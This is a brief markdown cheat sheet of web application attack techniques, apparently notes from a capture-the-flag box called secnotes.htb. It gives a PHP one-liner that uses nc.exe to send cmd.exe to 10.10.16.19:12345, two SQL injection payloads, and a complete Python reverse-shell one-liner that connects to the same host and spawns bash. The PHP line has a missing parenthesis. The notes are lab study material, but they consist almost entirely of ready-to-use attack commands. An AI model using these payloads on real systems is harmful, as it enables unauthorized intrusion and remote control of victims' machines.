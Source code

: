 # Web Application Enumeration and Attacks

| Check | Description |
| --------- | ---------------------------- |
| Curl vs Refreshing the page | Curl the page, you may see different users invoking the service (secnotes.htb) |
| Simple PHP to run nc.exe | ```<?php system('nc.exe -e cmd.exe 10.10.16.19 12345' ?> >> nc.php``` |

## 2nd Order SQLi
```
' OR 1 OR '
' OR 1='1
```

## Python Reverse Shell
```
python -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.16.19",12345));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/bash")'
```